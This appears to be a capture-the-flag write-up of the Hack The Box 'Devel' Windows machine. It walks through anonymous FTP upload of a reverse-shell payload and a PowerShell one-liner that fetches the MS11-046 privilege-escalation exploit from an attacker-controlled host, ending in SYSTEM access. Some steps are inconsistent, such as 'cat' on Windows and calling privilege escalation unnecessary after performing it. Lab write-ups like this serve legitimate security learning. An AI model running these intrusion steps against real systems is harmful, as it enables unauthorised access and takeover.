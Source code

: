 
# Information Gathering

## Nmap
We begin our reconnaissance by running an Nmap scan checking default scripts and testing for vulnerabilities.

```console
root@kali:~# nmap 10.10.10.5 -sV
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-30 11:10 EDT
Stats: 0:00:25 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 11:11 (0:00:06 remaining)
Nmap scan report for 10.10.10.5
Host is up (0.29s latency).
Not shown: 998 filtered ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
80/tcp open  http    Microsoft IIS httpd 7.5
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
From the above output we can see that ports, **21** and **80** are open.

Let's try to connect to ftp

```console
root@kali:~# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> passiv



150 Opening ASCII mode data connection.
03-18-17  02:06AM       <DIR>          aspnet_client
03-17-17  05:37PM                  689 iisstart.htm
03-17-17  05:37PM               184946 welcome.png
226 Transfer complete.
```
Here it is seen that ftp allows anonymous login. Let's go ahead and check if ftp allows the 'PUT' command.

![FTP](./Devel/Screenshot_3.png)
{**Figure 1:** Server runs on asp.net)

Idea is to craft a aspx payload and to deliver to the box using ftp PUT command.

We craft payload using msfvenom

![Msfvenom](./Devel/Screenshot_8.png)
(**Figure 2:** Msfvenom)

Delivering the payload
```console
ftp> put shell.asp
local: shell.asp remote: shell.asp
227 Entering Passive Mode (10,10,10,5,192,7).
125 Data connection already open; Transfer starting.
226 Transfer complete.
346 bytes sent in 0.00 secs (1.8748 MB/s)
````

Listening to netcat on port 4444 to catch the shell.

![Netcat](./Devel/Screenshot_4.png)
{**Figure 3:** Netcat listener)

# Exploitation  

Open the ip on the browser and navigate to the payload we delivered on the server.

![Payload](./Devel/Screenshot_5.png)
{**Figure 4:** Payload)

![Shell](./Devel/Screenshot_6.png)
{**Figure 5:** We got a reverse shell!)

![Low Shell](./Devel/Screenshot_7.png)
{**Figure 6:** Shell is a low privileged one)

Shell is a low privilged one, now for privesc.

# Privilege Escalation

![Sysinfo](./Devel/Screenshot_20.png)
{**Figure 7:** Here we see that the machine is running windows 7 build 7600)

Searching google for local prives for windows 7 reveals privesc payload. Next we download that and deliver it to the machine.

![Google](./Devel/Screenshot_19.png)
{**Figure 8:** Local Privesc)

We need to compile the file, all the instructions are in the payload file itself.

After the compilation we could deliver the payload either using ftp or using powershell. Here let's use powershell

Open a server on port 9005 using python

```console
python -m SimpleHTTPServer 9005
```

On the machine shell, type in the command to get a file using powershell
```console
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.14.20:9005/MS11-046.exe', 'c:\Users\Public\Downloads\MS46.exe')"
```

Exec the executable file

```console
c:\Users\Public\Downloads>MS46.exe
MS46.exe
```

```console
c:\Windows\System32>whoami
whoami
nt authority\system
```


## User Flag

In order to get the user flag, we change the directory to the user Desktop 'babis' and we simply need to use `cat` to read the contents of user.txt
```
root@kali:~$ cat user.txt

```

## Root Flag

There's no need to privesc this box as we could easily change directory to the Administrator Desktop folder and `cat` the root.txt
```
root@kali:~$ cat root.txt

```

# Conclusion
This box could also be solved using msfconsole, catch the shell using meterpreter with the apsx payload, once the shell is acquired background it and run local_exploit_suggester on the session and run the exploit which the module suggests. This would give you the privileged shell.


